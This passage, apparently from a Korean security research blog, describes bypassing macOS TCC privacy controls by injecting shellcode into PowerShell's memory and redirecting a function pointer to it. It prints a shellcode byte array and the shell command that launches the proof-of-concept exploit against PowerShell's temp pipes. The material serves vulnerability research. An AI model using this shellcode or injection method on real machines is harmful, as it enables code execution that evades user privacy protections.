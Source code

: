 ![29](/assets/img/2024-04-15-Methodology-for-discovering-TCC-Bypass-vulnerabilities-in-3rd-party-Applications.md/29.png)


해당 테이블에서 임의의 함수 포인터를 쉘코드 위치로 조작하여 원하는 명령을 실행시킬 수 있다.


<br>


다음은 Powershell의 메모리에 쉘코드를 주입하여 임의의 명령을 실행하는 것을 보여준다.

1. 쉘코드 주입 및 실행 코드 작성

	아래 링크의 코드를 참조하였다.

	- [https://gist.github.com/xpn/ce5e085b0c69d27e6538179e46bcab3c](https://gist.github.com/xpn/ce5e085b0c69d27e6538179e46bcab3c)

	<br>


	쉘코드를 다음과 같이 변경해주었다.


	{% raw %}
```c++
	unsigned char shellcode[] = "\x48\x31\xc0\x99\x50\x48\xbf\x2f\x74\x6d\x70\x2f\x70\x6f\x63\x57\x54\x5f\x48\x31\xf6\xb0\x02\x48\xc1\xc8\x28\xb0\x3b\x0f\x05";
	```
{% endraw %}

2. Powershell 실행
3. Exploit 코드 실행

{% raw %}
```bash
export in=$(ls /var/folders/n1/nc8h8x5n0_3387ttlfk_54j80000gn/T/*-in); export out=$(ls /var/folders/n1/nc8h8x5n0_3387ttlfk_54j80000gn/T/*-out); ./poc $in $out pwsh
```